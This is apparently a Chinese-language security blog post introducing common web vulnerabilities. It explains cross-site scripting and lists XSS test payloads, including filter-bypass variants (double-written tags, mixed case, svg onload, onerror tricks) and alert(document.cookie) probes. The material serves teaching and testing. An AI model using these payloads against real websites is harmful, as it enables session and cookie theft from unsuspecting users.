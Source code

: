 ```yaml
---
layout:     post
title:      互联网安全架构
date:       2018-12-20
author:     Wh0ale
header-img: img/9s_by_wlop-dchjjtf.jpg
catalog: true
tags:
    - 安全架构
---
```


# 一、常见Web安全漏洞

# 常见Web安全漏洞

## 0x01XSS攻击

### 1.什么是XSS攻击手段

XSS攻击使用Javascript脚本注入进行攻击

例如在提交表单后，展示到另一个页面，可能会受到XSS脚本注入，读取本地cookie远程发送给黑客服务器端。

 ```

<script>alert('I am Wh0ale')</script>

// <script>window.location.href='https://Wh0ale.github.io';</script>

对应html源代码: &lt;script&gt;alert('sss')&lt;/script&gt;
 ```

| 双重复写绕过 | <scr<script>ipt>                                             |
| ------------ | ------------------------------------------------------------ |
| 大小写绕过   | <scRipt>                                                     |
| 空格被过滤   | <svg/onload=alert(2)></svg>                                  |
| 引号被过滤   | <script>alert(/test/)</script>                               |
| 括号被过滤   | <a   onmouseover="javascript:window.onerror=alert;throw   1">2</a> |
| 关键字被过滤 | 在属性中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开 |

```
'>undefined<script>alert(document.cookie)</script>

='>undefined<script>alert(document.cookie)</script>

<script>alert(document.cookie)</script>

<script>alert(vulnerable)</script>

%3Cscript%3Ealert('XSS')%3C/script%3E

<script>alert('XSS')</script>

<img
src="javascript:alert('XSS')">

%0a%0aundefined<script>alert(\"Vulnerable\")</script>.jsp

```
